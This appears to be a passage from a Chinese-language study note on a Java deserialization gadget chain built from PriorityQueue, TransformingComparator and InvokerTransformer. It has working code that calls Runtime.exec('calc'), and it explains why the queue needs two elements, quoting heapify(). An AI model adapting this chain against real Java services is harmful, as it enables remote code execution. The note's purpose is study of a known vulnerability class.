 ```java
        Transformer[] trueTransformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                )
        };
        Transformer[] fakeTransformers = new Transformer[]{
                new ConstantTransformer(1)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);


        SerializeUtil.setFieldValue(chainedTransformer,"iTransformers",trueTransformers);

        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        SerializeUtil.unserialize(bytes);
```

之所以需要这两行：

```java
        priorityQueue.add(1);
        priorityQueue.add(2);
```

如果不懂数据结构光靠想的话也很容易，内部的堆需要调整，进行元素的比较的话，肯定得至少两个元素才可以。这一点也在反序列化链的代码中得到了体现：

```java
    private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

> java中有三种移位运算符
>
> <<    :   左移运算符，num << 1,相当于num乘以2
>
> \>>    :   右移运算符，num >> 1,相当于num除以2
>
> \>>>   :   无符号右移，忽略符号位，空位都以0补齐
